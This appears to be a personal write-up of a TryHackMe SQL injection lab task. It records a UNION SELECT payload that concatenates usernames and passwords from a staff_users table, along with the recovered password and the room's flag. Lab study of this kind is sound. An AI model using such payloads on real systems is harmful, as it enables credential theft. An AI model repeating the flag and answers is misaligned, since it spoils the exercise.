

# Level One – Error-Based SQLi (Task 5)

**Date recorded:** 
- 2025-09-23 

**Lab Objective:** 
- Enumerate usernames and passwords from the `staff_users` table using error-based SQLi.

**Payload used:**
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users


markdown
Copy code

**Result:** Retrieved concatenated username:password values from staff_users. 


**Password recovered:** pa$$word  

**Flag Obtained:** THM{SQL_INJECTION_3840}

Notes: Performed in a safe TryHackMe environment. Error-based SQLi allowed enumeration of the table.

**Screenshots:**



